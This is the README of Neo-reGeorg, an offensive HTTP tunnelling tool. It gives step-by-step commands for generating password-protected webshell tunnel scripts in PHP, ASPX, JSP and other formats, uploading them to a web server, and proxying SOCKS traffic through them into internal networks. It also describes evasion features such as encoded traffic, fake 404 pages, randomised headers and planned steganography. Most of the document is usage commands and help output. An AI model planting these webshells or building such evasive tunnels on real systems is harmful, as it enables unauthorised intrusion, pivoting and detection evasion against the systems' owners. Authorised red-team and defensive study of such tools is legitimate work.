 Neo-reGeorg
=========

[简体中文](README.md)　｜　[English](README-en.md)

**Neo-reGeorg** is a project designed to actively restructure [reGeorg](https://github.com/sensepost/reGeorg) with the aim of:

* Improve tunnel connection security
* Improve usability and avoid feature detection
* Improve the confidentiality of transmission content
* Solve the existing problems of reGeorg and fix some small bugs



## Features

* Transfer content through out-of-order base64 encryption
* GET request response can be customized (such as masquerading 404 pages)
* HTTP Headers instructions are randomly generated to avoid feature detection
* HTTP Headers can be customized
* Compatible with python2 / python3


Version
----

1.3.0



Dependencies
-----------

* [**requests**] - https://github.com/kennethreitz/requests




Basic Usage
--------------

* **Step 1.**
Set the password to generate tunnel server.(aspx|ashx|jsp|jspx|php) and upload it to the web server.
```ruby
$ python neoreg.py generate -k password

    [+] Create neoreg server files:
       => neoreg_server/tunnel.nosocket.php
       => neoreg_server/tunnel.js
       => neoreg_server/tunnel.php
       => neoreg_server/tunnel.ashx
       => neoreg_server/tunnel.aspx
       => neoreg_server/tunnel.tomcat.5.jsp
       => neoreg_server/tunnel.tomcat.5.jspx
       => neoreg_server/tunnel.jsp
       => neoreg_server/tunnel.jspx

```

* **Step 2.**
Use `neoreg.py` to connect to the web server and create a socks proxy locally.
```ruby
$ python3 neoreg.py -k password -u http://xx/tunnel.php
+------------------------------------------------------------------------+
  Log Level set to [ERROR]
  Starting socks server [127.0.0.1:1080], tunnel at [http://k/tunnel.php]
+------------------------------------------------------------------------+
```

   Note that if your tool, such as `nmap` does not support socks proxy, please use [proxychains](https://github.com/rofl0r/proxychains-ng) 




Advanced Usage
--------------

1. Support for generated tunnel server-side, the default GET request responds to the specified page content (eg camouflaged 404 page)
```ruby
$ python neoreg.py generate -k <you_password> --file 404.html
$ pytohn neoreg.py -k <you_password> -u <server_url> --skip
```

2. For example, the server WEB needs to set the proxy to access
```ruby
$ pytohn neoreg.py -k <you_password> -u <server_url> --proxy socks5://10.1.1.1:8080
```

3. To set `Authorization`, there are also custom `Header` or `Cookie` content.
```ruby
$ pytohn neoreg.py -k <you_password> -u <server_url> -H 'Authorization: cm9vdDppcyB0d2VsdmU=' --cookie "key=value;key2=value2"
```

* For more information on performance and stability parameters, refer to -h help information
```ruby
# Generate server-side scripts
$ python neoreg.py generate -h
    usage: neoreg.py [-h] -k KEY [-o DIR] [-f FILE] [--read-buff Bytes]

    Generate neoreg webshell

    optional arguments:
      -h, --help            show this help message and exit
      -k KEY, --key KEY     Specify connection key.
      -o DIR, --outdir DIR  Output directory.
      -f FILE, --file FILE  Camouflage html page file
      --read-buff Bytes     Remote read buffer.(default: 513)

# Connection server
$ python neoreg.py -h
    usage: neoreg.py [-h] -u URI -k KEY [-l IP] [-p PORT] [-s] [-H LINE] [-c LINE]
                     [-x LINE] [--read-buff Bytes] [--read-interval MS]
                     [--max-threads N] [-v]

    Socks server for Neoreg HTTP(s) tunneller
    DEBUG MODE: -k (debug_all|debug_base64|debug_headers_key|debug_headers_values)

    optional arguments:
      -h, --help            show this help message and exit
      -u URI, --url URI     The url containing the tunnel script
      -k KEY, --key KEY     Specify connection key
      -l IP, --listen-on IP
                            The default listening address.(default: 127.0.0.1)
      -p PORT, --listen-port PORT
                            The default listening port.(default: 1080)
      -s, --skip            Skip usability testing
      -H LINE, --header LINE
                            Pass custom header LINE to server
      -c LINE, --cookie LINE
                            Custom init cookies
      -x LINE, --proxy LINE
                            proto://host[:port] Use proxy on given port
      --read-buff Bytes     Local read buffer, max data to be sent per
                            POST.(default: 1024)
      --read-interval MS    Read data interval in milliseconds.(default: 100)
      --max-threads N       Proxy max threads.(default: 1000)
      -v                    Increase verbosity level (use -vv or more for greater
                            effect)
```



## TODO

* Solving tennel.js cannot continue TCP connection problems

* HTTP body steganography

* Transfer Target field steganography

* ~~Confuse/Anti-Virus/Compress server-side scripts~~ Should be modular, standalone tool
   


## License

GPL 3.0

## Change log

v1.1.0
    - Added jspx support

v1.2.0
    - Added -k debug_all (or debug_base64|debug_headers_key|debug_headers_values), Easy to debug

v1.3.0
    - Fixed --cookie JSESSIONID conflict, unavailable in load balancing environment
